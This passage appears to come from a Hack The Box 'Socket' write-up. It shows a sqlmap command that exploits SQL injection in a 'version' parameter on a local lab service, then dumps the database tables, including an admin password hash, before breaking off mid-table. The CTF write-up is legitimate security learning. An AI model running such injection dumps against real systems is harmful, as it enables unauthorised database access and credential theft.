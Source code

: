 I can now dump each table on its own and go slowly. Or because its a HTB challenge and the tables won't contain much, I can immediately dump all tables at once.:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --tables --level 5 --risk 3 --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.7#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<...snip ...>
[18:22:31] [WARNING] no clear password(s) found
Database: <current>
Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+

[18:22:31] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/users.csv'
[18:22:31] [INFO] fetching columns for table 'versions'
[18:22:31] [INFO] fetching entries for table 'versions'
Database: <current>
Table: versions
[2 entries]
+----+---------+-----------+---------------+
| id | version | downloads | released_date |
+----+---------+-----------+---------------+
| 1  | 0.0.1   | 280       | 12/07/2022    |
| 2  | 0.0.2   | 720       | 26/09/2022    |
+----+---------+-----------+---------------+

[18:22:31] [INFO] table 'SQLite_masterdb.versions' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/versions.csv'
[18:22:31] [INFO] fetching columns for table 'sqlite_sequence'
[18:22:32] [INFO] fetching entries for table 'sqlite_sequence'
Database: <current>
Table: sqlite_sequence
[5 entries]
+-----+----------+
| seq | name     |
+-----+----------+
| 2   | versions |
| 1   | users    |
| 2   | info     |
| 2   | reports  |
| 2   | answers  |
+-----+----------+

[18:22:32] [INFO] table 'SQLite_masterdb.sqlite_sequence' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/sqlite_sequence.csv'
[18:22:32] [INFO] fetching columns for table 'reports'
[18:22:32] [INFO] fetching entries for table 'reports'
Database: <current>
Table: reports
[2 entries]
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
```